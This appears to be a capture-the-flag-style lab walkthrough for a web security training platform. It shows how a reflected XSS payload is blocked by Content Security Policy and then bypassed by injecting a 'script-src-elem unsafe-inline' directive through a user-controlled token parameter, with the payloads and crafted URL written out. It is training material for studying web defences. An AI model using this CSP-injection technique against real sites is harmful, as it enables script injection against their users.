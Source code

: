 # Lab 16:Reflected XSS protected by CSP, with CSP bypass

This lab demonstrates how **Content Security Policy (CSP)** can be manipulated when a reflected XSS vulnerability exists and certain CSP directives are under attacker control.

---

## 🎯 Goal

> Perform a cross-site scripting attack that bypasses CSP and calls the alert function.
> 

> ⚠️ The intended solution works only in Google Chrome.
> 

---

## 🧪 Steps to Solve

### 1. 🧑‍💻 Inject a Classic XSS Payload

Enter this into the search box:

```html
<img src=1 onerror=alert(1)>
```

> ✅ You'll observe the payload is reflected, but CSP blocks script execution.
> 

---

### 2. 🕵️ Analyze the Response

- Use **Burp Suite's Proxy** tool to intercept the request.
- Notice the response contains a `Content-Security-Policy` header.
- The header includes a directive like:
    
    ```
    report-uri /some/path?token=...
    ```
    

🧩 **Key Insight**: You **control** the `token` parameter!

That means you can **inject your own CSP directives**.

---

### 3. 💥 Bypass CSP

Visit this crafted URL (replace `YOUR-LAB-ID` with your lab instance ID):

```
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```

---

## 🔍 How the Exploit Works

| 🧩 Technique | 💬 Explanation |
| --- | --- |
| `token=;script-src-elem 'unsafe-inline'` | Ends current CSP directive and **injects a new one** |
| `script-src-elem` | Targets **inline `<script>` elements** |
| `'unsafe-inline'` | **Allows inline JavaScript** like `<script>alert(1)</script>` |
| `%3Cscript%3Ealert(1)%3C/script%3E` | URL-encoded inline JavaScript payload |

---

## ▶️ Community Walkthrough

📺 [Watch Solution Video](https://youtu.be/hx9DjDxuYOE)